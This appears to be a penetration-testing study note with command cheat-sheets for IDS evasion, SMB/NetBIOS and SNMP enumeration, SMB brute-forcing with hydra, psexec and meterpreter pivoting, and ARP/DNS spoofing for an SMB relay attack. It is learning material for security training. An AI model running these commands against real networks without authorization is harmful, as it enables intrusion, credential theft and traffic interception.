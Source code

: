 
---

### **1. Introduction**

1. Host Discovery & Port Scanning
    
2. Service Enumeration
    
3. MITM & Network-Based Attacks
    
4. Windows Exploitation & Post-Exploitation
    
5. Linux Exploitation & Post-Exploitation
    

---

### **2. Networking**

#### **Networking Fundamentals**

- Already covered in the _Footprinting & Scanning_ section.
    

#### **Firewall Detection & IDS Evasion**

- **Detecting Firewalls with Nmap:**
    
    ```bash
    nmap -Pn -sA -pP1,P2 TargetIP
    ```
    
    - `-sA`: ACK scan. If port appears filtered, likely a stateful firewall is present.
        
- **Evading IDS (Intrusion Detection Systems):**
    
    ```bash
    nmap -Pn -sS -F -f --mtu n TargetIP
    ```
    
    - `-f`: Enables packet fragmentation
        
    - `--mtu`: Set MTU (packet size) for fragmentation
        
- **Spoofing Gateway IP:**
    
    ```bash
    nmap -Pn -sS -sV -pP1,P2 -f --data-length L -D SpoofedIP TargetIP
    ```
    
    - `--data-length`: Adds padding to packets
        
    - `-D`: Decoy IPs for stealth
        

---

### **3. Network Attacks**

#### **Network Enumeration**

- Covered in the _Enumeration_ section.
    

#### **SMB & NetBIOS Enumeration**

- **NetBIOS:** Used for name resolution and basic communication
    
    - Ports: 137 (Name), 138 (Datagram), 139 (Session)
        
- **SMB (Server Message Block):** Used for file/print sharing and IPC
    
    - Versions: SMB1 / SMB2 / SMB3+
        

**NetBIOS/SMB Enumeration Commands:**

```bash
nmap -sU -sV -T4 --script nbstat.nse -pPort TargetIP
nbtscan SubnetIPRange
nmblookup -A TargetIP

nmap -sV -p 139,445 TargetIP
nmap -p445 --script smb-protocols TargetIP
nmap -p445 --script smb-security-mode TargetIP
smbclient -L TargetIP
nmap -p445 --script smb-enum-users TargetIP
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt TargetIP smb

psexec.py user@TargetIP
# OR
msf6 > use windows/smb/psexec

meterpreter > run autoroute -s SubnetIP
msf6 > use server/socks_proxy
proxychains nmap TargetIP ...
```

#### **SNMP Enumeration**

- SNMP runs over UDP:
    
    - Ports: 161 (queries), 162 (traps)
        
- Components: SNMP Manager, Agent, and MIB
    
- Enum goals: Identify SNMP-enabled devices, system/network info, community strings, services, users, and groups
    

**SNMP Enumeration Commands:**

```bash
nmap -sU -sV -p 161 --script snmp-* TargetIP > snmp_info
snmpwalk -v 1 -c public TargetIP
```

#### **SMB Relay Attack**

- Exploits relay of SMB authentication to gain access
    
- Steps: Intercept → Capture creds → Relay to server → Gain access
    

**SMB Relay Commands:**

```bash
msf6 > use exploit/windows/smb/smb_relay

echo "TargetIP domain" > dns
sudo dnsspoof -i interface -f dns
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
sudo arpspoof -i interface -t TargetIP gatewayIP
sudo arpspoof -i interface -t gatewayIP TargetIP
```

---
